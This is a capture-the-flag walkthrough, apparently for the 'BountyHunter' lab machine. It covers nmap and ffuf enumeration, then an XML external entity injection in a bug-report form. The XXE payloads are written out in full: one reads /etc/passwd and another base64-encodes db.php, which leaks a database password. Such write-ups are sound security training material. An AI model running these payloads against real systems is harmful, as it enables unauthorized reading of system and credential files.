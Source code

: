 # BountyHunter

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
nmap -v -sS -sV -sC -T4 -p- -oA bountyhunter-full-tcp 10.129.95.166

# Results
Nmap scan report for 10.129.95.166
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 23 11:53:23 2024 -- 1 IP address (1 host up) scanned in 27.94 seconds
```

# HTTTP (Port 80)

Port 80 hosts a Bug Bounty submission page, browsing around there are a few stand out pages, such as a contact form which could be used for injection, however more interestingly a portal used for submitting bugs to the system. 

![image](https://github.com/user-attachments/assets/b08ce87c-dddc-4237-b0e3-6b0d70e71c5c)

A message is displayed on submission stating the DB isn't setup, however, the results are returned to the page. Not taking the comment at face value, I try some basic injection attacks including SQL but nothing works.

Some other paths were discovered using ffuf:

  Command line : `ffuf -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://bountyhunter/assets/FUZZ -t 2 -v -o ffuf-forced-browsing-directories -of md`

These were /assets and /resources. Whilst nothing of interest was found using assets, resources displayed a directory listing. I was unable to find anything sensitive but some of the files did help give an understanding of how the application was working, epecially the bounty submission form. 

When submitting the form the value is encoded using Base64 and URL encoding. 

```bash
# Enoded payload
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5hYTwvdGl0bGU%2BCgkJPGN3ZT5iYjwvY3dlPgoJCTxjdnNzPmNjPC9jdnNzPgoJCTxyZXdhcmQ%2BZGQ8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D

# Decoded Payload
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>Test</title>
		<cwe>101</cwe>
		<cvss>10</cvss>
		<reward>&names;</reward>
		</bugreport>
```

This is interesting because it is submitting XML to the server, I decided to try adding a basic XXE payload to the saubmision and re-encoding. The updated XML became:

```bash
# Updated XML
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<!DOCTYPE data [
		<!ENTITY names SYSTEM "/etc/passwd">
		]>
		<bugreport>
		<title>Test</title>
		<cwe>101</cwe>
		<cvss>10</cvss>
		<reward>&names;</reward>
		</bugreport>
```

After encoding and resubmitting, I was able to view the /etc/passwd file, see screenshot below:

![image](https://github.com/user-attachments/assets/032c3181-48ad-4604-9452-8de41cb168c5)

I could now start looking for more interesting data on the system. 

One file we target as this is php is the db.php file, we will need to base64 encode this in a PHP wrapper to avoid bad characters, see on Payload all the Things [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe).

The payload to get this ends up as:

```bash
# Payload to retrieve PHP file
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>test</title>
  <cwe>test</cwe>
  <cvss>test</cvss>
  <reward>&file;</reward>
</bugreport>
```

Decoding the response we can see the dbpassword:

```bash
# dbpassword
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

